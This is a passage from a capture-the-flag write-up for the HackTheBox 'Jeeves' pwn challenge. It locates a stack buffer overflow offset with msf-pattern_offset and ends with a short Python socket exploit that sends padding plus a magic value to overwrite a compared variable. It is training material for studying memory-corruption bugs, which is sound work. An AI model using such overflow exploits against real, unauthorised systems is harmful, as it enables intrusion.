 
![](images/Pasted%20image%2020210922200648.png){ width=250px }

To keep things simple, we will be taking the contents of the memory address pointed to by `rbp` and not `rbp-0x04`. If we look at the registers panel, we can see the content of `rbp` is `0x00007fffffffded0`. Looking at the memory contents at that address in the stack panel, we see it contains `0x3363413263413163`. With this value, we can submit it to `msf-pattern_offset` and get the value of the offset. 

```default
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ msf-pattern_offset -l 200 -q 3363413263413163
[*] Exact match at offset 64
kali@kali:~/Documents/CTF/HTB/Challenges/Pwn/Jeeves$ 
```

With that, we now have the offset for `rbp`. That being said, we needed the offset for `rbp-0x04`, so our final offset is 60. 

# Writing the Final Exploit
All that is left now is to write the value found in the `cmp` instruction right after our offset. 

```python
import socket
host = '127.0.0.1'
port = 31183

padding = b'A'*60

cmp = b'\x13\x37\xba\xb3'

buffer = padding + cmp

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))
s.sendall(buffer)
s.shutdown(socket.SHUT_WR)
print(s.recv(1024))
s.close()
```
